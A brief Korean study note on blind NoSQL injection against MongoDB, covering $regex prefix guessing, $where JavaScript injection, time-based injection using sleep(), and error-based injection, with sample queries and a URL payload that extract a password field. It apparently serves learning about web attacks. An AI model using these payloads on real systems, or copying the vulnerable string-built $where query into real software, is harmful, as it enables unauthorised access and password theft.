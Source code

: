 mongo db를 기반으로 한 프로그램에서 시도할수있는 블라인드 인젝션 종류이다 

1. $regax 를 이용한 방식

        db.user.find({upw: {$regex: "^a"}})

        db.user.find({upw: {$regex: "^b"}})

        db.user.find({upw: {$regex: "^c"}})
    정규식을 이용해 맞다면 값을 출력하게해 값을 알아낼수 있다

2. $where 를 이용한 방식
        
        > db.user.find({$where:"return 1==1"})
        { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    자바스크립트 표현식을 만족하는 데이터를 조회하는 연산자인 WHERE를 이용해 인젝션할 수 있다. (필드에는 넣을 수 없다)

3. time-based injection

        db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
        /?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
        => 시간 지연 발생.
    실행순서에 따라 앞에있는 where 문이 성공하지 않으면 뒤에 sleep()함수가 실행되지 않기에 가능한 인젝션이다.
4. error-based injection

        > db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
        error: {
            "$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
            "code" : 16722
    Time-based 와 비슷하게 앞에있는 where 문이 실행되면 뒤에있는 더미 코드가 실행돼 에러를 발생한다
